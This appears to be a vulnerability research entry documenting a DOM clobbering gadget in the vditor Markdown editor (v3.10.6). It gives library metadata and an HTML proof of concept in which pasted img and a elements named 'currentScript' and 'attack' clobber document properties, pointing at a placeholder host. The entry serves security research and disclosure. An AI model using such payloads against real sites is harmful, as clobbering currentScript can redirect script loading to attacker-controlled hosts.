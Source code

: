 ## vditor

### Meta

+ Library: vditor
+ Version: v3.10.6
+ Stars: 8.3K
+ Fingerprint: `typeof window.Vditor !== undefined`
+ Input: Type
+ Sanitizer: N/A
+ Capability: Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/Vanessa219/vditor

### Vulnerable Code Snippet

N/A

### PoC 

```html
<!--Library-->
  <link rel="stylesheet" href="https://unpkg.com/vditor/dist/index.css">
  <div id="vditor" class="vditor"></div>
  <script src="https://unpkg.com/vditor/dist/index.min.js"></script>
  <script>
    let vditorInstance;
    function initVditor() {
      vditorInstance = new Vditor('vditor', {
        after: () => {
          vditorInstance.setValue("HELLO WORLD");
        }
      });
    }
    window.onload = initVditor;
  </script>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor;</p>
<!--Payload-->
```